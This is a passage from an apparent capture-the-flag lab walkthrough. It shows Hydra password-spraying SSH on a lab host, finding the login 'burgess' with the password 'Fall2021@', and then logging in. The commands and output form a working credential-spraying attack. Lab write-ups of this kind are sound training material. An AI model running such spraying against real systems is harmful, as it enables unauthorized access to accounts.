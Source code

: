 ```console
Hydra (http://www.thc.org/thc-hydra) starting at 2022-04-16 12:04:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://10.10.129.191:22/
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-04-16 12:04:45
```
{: .nolineno }

Then finally :

```console
root@ip-10-10-226-237:~/Desktop/test# hydra -L usernames-list.txt -p Fall2021@ ssh://10.10.129.191
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-04-16 12:07:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://10.10.129.191:22/
[22][ssh] host: 10.10.129.191   login: burgess   password: Fall2021@
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-04-16 12:07:16
```
{: .nolineno }

Connecting to Burgess SSH :

```console
root@ip-10-10-226-237:~/Desktop/test# ssh burgess@10.10.129.191
The authenticity of host '10.10.129.191 (10.10.129.191)' can't be established.
ECDSA key fingerprint is SHA256:7S4Su1KM0oJvJDNQTDVYtgsApIoibze7gZhucnImSf8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.129.191' (ECDSA) to the list of known hosts.
burgess@10.10.129.191's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 5.4.0-1058-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Apr 16 11:09:19 UTC 2022

  System load:                    0.04
  Usage of /:                     21.1% of 19.32GB
  Memory usage:                   37%
  Swap usage:                     0%
  Processes:                      146
  Users logged in:                0
  IP address for eth0:            10.10.129.191
  IP address for docker0:         172.17.0.1
  IP address for br-c0dd1805e8c7: 172.18.0.1
  IP address for br-mailcow:      172.22.1.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

61 packages can be updated.
8 updates are security updates.

```